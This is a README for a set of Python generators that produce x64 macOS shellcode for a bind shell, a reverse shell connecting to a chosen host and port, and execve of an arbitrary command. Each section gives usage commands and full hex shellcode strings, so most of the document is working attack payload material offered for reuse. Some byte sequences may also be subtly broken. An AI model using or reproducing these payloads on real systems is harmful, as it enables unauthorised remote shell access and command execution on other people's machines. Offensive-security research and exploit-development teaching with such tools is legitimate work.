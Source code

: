 # macOS Shellcoding

In this repository are three helper tools designed to automate shellcode generation for bind, reverse and execve shellcode on macOS.

Each script outputs a compiled macho64 binary of the payload along with the asm file.

The instructions on how to use these scripts to create your own custom shellcode is as follows.

## bind

Creates a bind shell payload which will listen on the specified port on all local interfaces for connections.

```bash
python3 macOS_bind_shell_x64.py -h
usage: macOS_bind_shell_x64.py [-h] [-p PORT]

Generate x64 macOS bind shell shellcode.

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Local port for TCP bind shell to listen on.
```

To create a bind shell which will listen on port 4444:

```shell
python3 macOS_bind_shell_x64.py -p 4444
[*] Generating shellcode for x64 macOS bind shell on port 4444
[*] Shellcode length: 153 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x6a\x02\x5f\x6a\x01\x5e\x48\x31\xd2\x6a\x61\x58\x48\x0f\xba\xe8\x19\x0f\x05\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x56\xbe\x01\x02\x11\x5c\xff\xce\x56\x54\x5e\x6a\x10\x5a\x6a\x68\x58\x48\x0f\xba\xe8\x19\x0f\x05\x4c\x89\xcf\x48\x31\xf6\x6a\x6a\x58\x48\x0f\xba\xe8\x19\x0f\x05\x4c\x89\xcf\x48\x31\xf6\x48\x31\xd2\x6a\x1e\x58\x48\x0f\xba\xe8\x19\x0f\x05\x49\x89\xc2\x4c\x89\xd7\x48\x31\xf6\x6a\x5a\x58\x48\x0f\xba\xe8\x19\x49\x89\xc1\x0f\x05\x48\xff\xc6\x4c\x89\xc8\x0f\x05\x48\xff\xc6\x4c\x89\xc8\x0f\x05\x48\x31\xd2\x52\x48\xbb\x2f\x62\x69\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x6a\x3b\x58\x48\x0f\xba\xe8\x19\x0f\x05"
```

## reverse

Creates a reverse shell payload which will initiate a connection to the specified host on the specified port.

```shell
python3 macOS_reverse_shell_x64.py -h
usage: macOS_reverse_shell_x64.py [-h] [-l LHOST] [-p PORT]

Generate x64 macOS reverse shell shellcode.

optional arguments:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        Remote IPv4 address for TCP reverse shell to connect
                        to.
  -p PORT, --port PORT  Remote port for TCP reverse shell to connect to.
```

To create a reverse shell which will connect to host 127.0.0.1 on port 1337:

```shell
python3 macOS_reverse_shell_x64.py -l 127.0.0.1 -p 1337
[*] Generating shellcode for x64 macOS reverse shell on 127.0.0.1:1337
[*] Shellcode length: 113 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x6a\x02\x5f\x6a\x01\x5e\x48\x31\xd2\x6a\x61\x58\x48\x0f\xba\xe8\x19\x0f\x05\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x56\x48\xbe\x01\x02\x05\x48\xff\xce\x56\x54\x5e\x6a\x10\x5a\x6a\x62\x58\x48\x0f\xba\xe8\x19\x0f\x05\x48\x31\xf6\x6a\x5a\x58\x48\x0f\xba\xe8\x19\x49\x89\xc1\x0f\x05\x48\xff\xc6\x4c\x89\xc8\x0f\x05\x48\xff\xc6\x4c\x89\xc8\x0f\x05\x48\x31\xd2\x52\x48\xbb\x2f\x62\x69\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x6a\x3b\x58\x48\x0f\xba\xe8\x19\x0f\x05"
```


## execve

Creates an execve shellcode payload which will execute the command specified.

```shell
python3 macOS_execv_x64.py -h
usage: macOS_execv_x64.py [-h] [-c COMMAND]

Generate x64 macOS execv shellcode.

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Shell command to generate shellcode
```

To create a payload which will execute the 'whoami' command:

```shell
python3 macOS_execv_x64.py -c 'whoami'
[*] Command converted into hex: 696d616f6877
[*] Command length: 12
[*] Generating shellcode for x64 macOS execv command 'whoami'
[*] Shellcode length: 63 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x48\x31\xd2\x52\x48\xbb\x2f\x62\x69\x53\x48\x89\xe7\x48\x31\xdb\x66\xbb\x2d\x63\x53\x48\x89\xe3\x48\x31\xd2\x52\x48\xba\x6e\x2f\x77\x52\x48\xba\x2f\x2f\x75\x52\x48\x89\xe6\x48\x31\xd2\x52\x56\x53\x57\x48\x89\xe6\x6a\x3b\x58\x48\x0f\xba\xe8\x19\x0f\x05"
```
